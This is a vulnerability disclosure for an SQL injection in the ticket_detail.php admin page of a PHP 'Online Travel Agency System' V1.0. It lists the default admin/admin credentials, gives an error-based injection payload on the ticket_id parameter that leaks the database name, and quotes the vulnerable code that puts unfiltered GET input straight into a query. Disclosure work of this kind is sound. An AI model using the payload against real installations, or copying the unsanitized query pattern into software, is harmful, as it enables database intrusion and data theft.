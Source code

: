 # [Online Travel Agency System-SQL Injection-ticket_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/ticket_detail.php?ticket_id=15`    

**[Vulnerability Location]:** Travel/admin/ticket_detail.php

**[Vulnerability Test]:**

1. payload:`ticket_id=15%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428164836.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/ticket_detail.php

```php
<?php 
  $sql="select*from ticket where ticket_id='$_GET[ticket_id]'";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  while($row=mysqli_fetch_array($result))
  { //	  	 	 	 	 	 	 	 	 	 		 	 	 	 	
	  $ticket_id=$row["ticket_id"];
	  $ticket_no=$row["ticket_no"];
	  $costomer_id=$row["costomer_id"];
	  $date=$row["date"];
	  $sector_from=$row["sector_from"];
	  $sector_to=$row["sector_to"];
	  $airline_name=$row["airline_name"];
	  $airline_no=$row["airline_no"];
	  $date_of_insertion=$row["date_of_insertion"];
	  $inserted_by=$row["inserted_by"];// 
  }
  ?>
```

The GET parameter `ticket_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

